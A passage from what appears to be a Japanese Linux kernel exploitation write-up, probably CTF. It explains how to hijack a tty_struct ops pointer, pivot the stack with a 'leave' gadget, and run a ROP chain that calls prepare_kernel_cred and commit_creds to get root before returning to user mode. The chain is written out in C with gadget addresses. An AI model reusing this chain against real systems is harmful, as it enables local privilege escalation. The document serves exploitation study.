 まず、`ops`を書き換えて`tty_struct + 0x50`を指すようにします。この領域に偽のvtableとして`leave`するガジェットのアドレスを入れておきます。すると、上で書いたように`RBP`には`tty_struct`自身のアドレスが入っているため、`leave`すると`tty_struct`のアドレスが`RSP`に入ります。この状態で`RET`すると、`tty_struct + 8`に入っているアドレスに戻ることになります。ここは`tty_struct.dev`ポインタであり、壊れてても良い値なので、ここに`tty_struct + 0x50 + 0x120`のアドレスを入れておきます。あとは、`+0x50 + 0x120`の領域に好きなROPを組んでおくだけです。本当に、ROPのためにある構造体と言っても過言ではありません。偶然magic numberもvalidでなくてはいけないポインタ(`+0x10: driver`)を壊すことなくいけます。奇跡の構造体です。
ROP自体はこんな感じ:

```rop.c
  *rop++ = KADDR(0xffffffff81906510); // pop rdi
  *rop++ = 0;
  *rop++ = KADDR(0xffffffff810ebc90); // prepare_kernel_cred

  *rop++ = KADDR(0xffffffff812c32a9); // pop rcx (to prevent later `rep`)
  *rop ++ = 0;
  *rop++ = KADDR(0xffffffff81a05e4b); // mov rdi, rax; rep movsq; (simple `mov rdi, rax` not found)
  *rop++ = KADDR(0xffffffff810eba40); // commit_creds

  *rop++ = KADDR(0xffffffff81c00ef0 + 0x16); // swapgs_restore_regs_and_return_to_usermode + 0x16
                                             // mov rdi,rsp; mov rsp,QWORD PTR gs:0x6004; push QWORD PTR [rdi+0x30]; ...
  *rop++ = 0;
  *rop++ = 0;
  *rop++ = (ulong)NIRUGIRI;
  *rop++ = user_cs;
  *rop++ = user_rflags;
  *rop++ = (ulong)krop_stack + KROP_USTACK_SIZE / 2;
  *rop++ = user_ss;
```
